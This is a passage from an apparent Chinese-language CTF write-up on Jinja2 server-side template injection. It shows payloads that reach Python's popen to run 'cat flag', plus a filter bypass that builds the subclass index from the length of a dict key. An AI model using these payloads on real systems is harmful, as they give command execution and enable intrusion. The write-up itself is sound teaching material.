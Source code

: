 ```bash
{% set a=(dict(e=a)|join|count)%} 
```

[![在这里插入图片描述](assets/1698900310-56d43989586de65e157d9626aec1f78c.png)](https://storage.tttang.com/media/attachment/2022/08/14/8a4ae22f-48c7-4826-8193-1a387270227d.png)  
我们这里利用这个 payload

```bash
{%print(().__class__.__bases__[0].__subclasses__()[133].__init__.__globals__['popen']('cat flag').read())%}
```

简单修改一下

```bash
{% set a=(dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count)%}
{%print(().__class__.__base__.__subclasses__()[a].__init__.__globals__['popen']('cat flag').read())%}
```
